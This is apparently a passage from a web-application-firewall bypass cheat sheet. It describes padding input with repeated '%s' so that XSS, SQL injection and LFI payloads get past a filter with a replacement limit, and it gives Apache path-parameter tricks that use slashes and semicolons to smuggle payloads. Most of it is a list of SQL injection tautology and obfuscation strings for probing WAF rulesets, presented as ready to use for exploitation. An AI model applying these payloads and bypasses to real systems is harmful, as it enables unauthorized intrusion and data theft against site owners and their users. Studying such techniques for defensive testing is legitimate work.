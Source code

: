 Commonly troubling characters are replaced, but only for the first 33 times they are matched.  Therefore, attacks like XSS payloads, SQL injections and LFI attacks would all bypass the WAF - as long as you copy and paste them more than 33 times in your input. To make it easier, you can just copy this before any payload for successful exploitation.
```php
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%
s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s <PAYLOAD HERE>

```

## Path Parameter Exploitation

Many WAFs also do not anticipate attacks that modify the URL path in unexpected ways. The following attacks have worked against Apache on some servers.

Adding a slash at the end of a URL, some junk characters and parameters followed by a payload. 
```
example.com/giant/pig.php/haku?userid=1PAYLOAD
```

Using a semicolon and more unexpected parameter madness.
```
example.com/giant/pig.php;param=value?userid=1PAYLOAD
```

Even this, a lone semicolon is enough.
```
example.com/giant;/pig.php?userid=1PAYLOAD

```

## Payload Ideas to Hassle WAFs with

Below are some common and quick examples of ways to tamper with payloads to try to enumerate a WAFs ruleset.  Note: BLasting all of these into a parameter will be very unlikely to do anything but inconvenience you by being quickly banned.

```
`1 or 1=1   
1' or ''='   
1" or ""="   
1' or true#   
1" or true#   
1 or true# etc.`   
  
`or '1   
|| '1   
null' || 'a'=_binary'a   
1' || 'a'=x'61   
1' && '0'=x'30   
1' %26%26 %270%27%3dx'30   
2' && 0.e1=_binary"0   
1 or 1.e1=0b1010   
' || 1 like 1   
'-'   
"-"   
' || 2 not like 1   
110 or x'30'=48   
'1'!=20   
1 or 20!='1'   
2 and 2>0   
3 || 0<1   
12 || 0b1010<0b1011   
0b11 || 0b1010x'30'   
1 or 0b1   
2121/**/||21   
111' or _binary'1   
```